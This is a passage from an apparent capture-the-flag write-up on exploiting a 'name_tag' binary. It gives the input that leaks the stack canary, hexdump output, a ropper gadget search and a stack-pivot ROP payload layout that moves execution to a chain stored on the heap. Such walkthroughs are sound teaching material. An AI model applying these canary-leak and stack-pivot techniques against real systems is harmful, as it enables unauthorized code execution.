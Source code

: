 ```sh  
$ python3 -c 'print("A"*40+"B")' | ./name_tag-traceable | hexdump -C  
...snip  
00000090  69 72 73 74 20 6e 61 6d  65 3f 20 0a 57 65 6c 63  |irst name? .Welc|  
000000a0  6f 6d 65 20 41 41 41 41  41 41 41 41 41 41 41 41  |ome AAAAAAAAAAAA|  
000000b0  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|  
000000c0  41 41 41 41 41 41 41 41  41 41 41 41 42 ad 01 27  |AAAAAAAAAAAAB..'|  
000000d0  a3 c7 7d fd e0 15 40 0a  43 61 6e 20 79 6f 75 20  |..}[email protected] you |  
*** stack smashing detected ***: terminated  
...snip  
```

We use the different 41st character to easily identify where the leak starts.  
You can also notice that we get the "stack smashing detected" error meaning we  
have overwritten the cookie as expected, but it's currently wrong. We'll fix  
this later, but we know the cookie at this point because the lowest byte is  
always 0 and that's the only one we overwrite, so if we set it back we have
the  
cookie. A bitwise and will take care of this for us `cookie &=  
0xffffffffffffff00`.

With the cookie leaked we now have two writes left, 512 bytes to the heap and  
112 to last name on the stack. The second write is the one we can leverage fix  
the cookie before the function returns and start a ROP, but we are limited to  
three 64-bit values due to the liit on the read. If we knew the libc it was  
using we might be able to find a "one shot" gadget and return there but at
this  
point we don't and due to something we'll discuss later, this wouldn't work  
anyways. But we do have the ability to write a lot of data to the heap, so  
what if we could write a ROP chain there and use that? Well, we can! This is  
a concept known as "stack pivoting" because we need to pivot the stack to  
a different spot so that the ROP chain will continue reading our instructions.

Because the binary leaks where the heap is, we can write a ROP chain to heap
and  
then have our first ROP change the stack (aka RSP) to point to that location  
instead. Becaue the heap is readable and writable this behaves basically the  
same as the stack normally does. First we need to find a gadget to manipulate  
RSP, so we find one with ropper.

```  
name_tag[master*] $ ropper --file name_tag --search "pop rsp"  
[INFO] Searching for gadgets: pop rsp  
0x000000000040163d: pop rsp; pop r13; pop r14; pop r15; ret;  
```

To recap the plan:  
1. Leak the stack cookie via first_name  
2. Write a ROP chain to the `bio` in the heap and get the address  
3. Write the stack pivot ROP chain to the heap address

Looking at our previous stack chart again, our ROP payload for the stack pivot  
is:

```  
[72-bytes] padding  
[ 8-bytes] leaked cookie & 0xffffffffffffff00  
[ 8-bytes] heap address & 0xffffffffffffff00  # This makes it somewhat valid
but isn't terribly important what this is set to  
[ 8-bytes] pop rsp gadget  
[ 8-bytes] heap address (new RSP)  
```
